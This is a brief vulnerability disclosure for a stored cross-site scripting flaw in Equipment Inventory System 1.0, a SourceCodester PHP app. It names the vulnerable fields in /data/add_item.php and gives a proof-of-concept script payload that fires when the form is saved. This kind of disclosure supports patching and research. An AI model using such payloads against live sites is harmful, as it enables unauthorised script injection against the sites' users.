 # Equipment Inventory System-XSS

### Date: 2022-08/22



### Exploit Author: anx0ing@gmail.com



### Vendor Homepage: 

[https://www.sourcecodester.com](https://www.sourcecodester.com/)



### Software Link: 

https://www.sourcecodester.com/php/11327/equipment-inventory.html



### Version: 1.0



### /data/add_item.php

> `Generic Name`、`Item Code:`、`Brand Name`Parameters have Cross Site Scripting(XSS)

![image-20220807230905054](https://cdn.jsdelivr.net/gh/beytagh001/blog-img/image-20220807230905054.png)



**payload**

```
<script>alert(1)</script>
```

![image-20220807225859771](https://cdn.jsdelivr.net/gh/beytagh001/blog-img/image-20220807225859771.png)

> The save will trigger
